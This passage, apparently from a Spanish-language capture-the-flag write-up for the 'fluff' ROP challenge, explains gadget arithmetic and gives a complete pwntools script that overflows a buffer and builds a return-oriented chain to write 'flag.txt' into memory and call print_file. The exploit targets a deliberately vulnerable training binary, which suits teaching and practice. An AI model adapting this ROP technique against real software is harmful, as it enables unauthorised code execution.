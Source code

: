 ```asm
0x0000000000400610 : mov eax, 0 ; pop rbp ; ret
```

En lugar de poner *eax* a 0, podemos directamente restar en *rbx*. La cosa es *qué* valor, empezamos restando *rax* a *rbx*, después, restamos el valor de *rbx* a *rax*. Hay que tener en cuenta que restar a *rbx* afecta al valor que popeamos en *rcx*.

El segundo script sería:

```python
from pwn import *


offset = b'A'*40
subtract = 0x3ef2

xlatb_ret = p64(0x400628)
poprdx_rcx_addrcx_bextr_ret = p64(0x40062a)
stosrdi_ret = p64(0x400639)
poprdi_ret = p64(0x4006a3)
moveax0_poprbp_ret = p64(0x400610)
ret = p64(0x400295)

addr_flag = ['0x4003c4', '0x4003c5' , '0x4003d6', '0x4003cf', '0x40024e', '0x400192', '0x400246', '0x400192']
addr_str = 0x601028
print_file = p64(0x400510)

payload = offset 

flag_str = b"flag.txt"

for i in range(len(addr_flag)):
    if(i == 0):
        sub_rax = 0xb
    if(i != 0):
        sub_rax = flag_str[i - 1]
    payload += poprdx_rcx_addrcx_bextr_ret
    payload += p64(0x4000)                                              #take 8 bytes
    payload += p64(int(addr_flag[i], 16) - subtract - sub_rax)          # take correct value rcx: the address contain char in "flag.txt"
    payload += xlatb_ret                                                #take the one byte at the address which stores in rbx to al 
    payload += poprdi_ret
    payload += p64(addr_str + i)
    payload += stosrdi_ret
    
payload += poprdi_ret
payload += p64(addr_str)
payload += ret
payload += print_file

with open("debug", "wb") as binary_file:
    binary_file.write(payload)
    
r = process('./fluff')
r.recvuntil(b'> ')
r.sendline(payload)
r.interactive()
```
